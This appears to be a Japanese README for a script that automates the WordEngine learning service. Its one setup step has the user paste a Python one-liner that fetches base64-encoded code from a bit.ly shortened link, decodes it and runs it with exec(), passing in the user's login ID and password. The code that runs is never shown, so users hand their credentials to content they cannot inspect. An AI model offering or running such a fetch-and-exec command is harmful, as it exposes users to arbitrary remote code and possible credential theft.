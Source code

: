 # USE GUIDE

## ・必要ライブラリ

`requests`

```cmd
pip install requests
```
## ・scriptの実行

Pythonista3やa-Shellなどを使ってコードを実行して下さい。
<br>ログインID,パスワード,実行回数は書き換えて下さい

```python
import requests as r, base64; exec(base64.b64decode(r.get('https://bit.ly/4e7FIhg').text).decode() + "\nWordEngine('your_loginid', 'your_password', run_num)")
```

## コードの説明
- `your_loginid` = ログインID
- `your_password` = パスワード
- `run_num` = 実行回数

- [Pythonista3の場合]
consoleにコードを貼付

- [a-Shellの場合]
ターミナルにpythonと打ち、コードを貼付


注意事項
  - 自己責任でお願い致します。
  -	pythonが動くなら何でも○
